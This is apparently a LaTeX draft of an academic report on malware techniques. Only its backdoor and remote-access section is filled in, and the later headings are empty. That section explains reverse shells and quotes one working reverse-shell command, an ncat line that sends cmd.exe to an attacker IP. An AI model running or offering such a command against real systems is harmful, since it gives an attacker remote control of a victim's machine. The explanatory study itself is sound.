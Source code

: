 \documentclass[11pt]{article}
\begin{document}
				\subsubsection{Backdoors and Remote Access}
					A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, and application, or an embedded device.\par
					It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.\par
					Backdoors can be established trough various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes. Common methods include Reverse Shells, in which the compromised machine initiates an outbound connection to an attacker-controlled server, often used to bypass firewalls that restrict inbound connections. The command \texttt{'ncat 172.20.10.15 -e cmd.exe'} in \texttt{'commands.bat'} code attempts to establish a reverse shell, by creating a TCP/IP connection from the victim's computer to the attacker IP address
		
				\subsubsection{Non-Visual Command Execution and Process Hiding}
				\subsubsection{Process Injection and Memory Manipulation}
				\subsubsection{Persistence Techniques}
			\subsection{Relevant Frameworks and Tools}
			
		\section{Description}
			\subsection{Test Environment Setup}
				\subsubsection{Victim Machine}
\end{document}
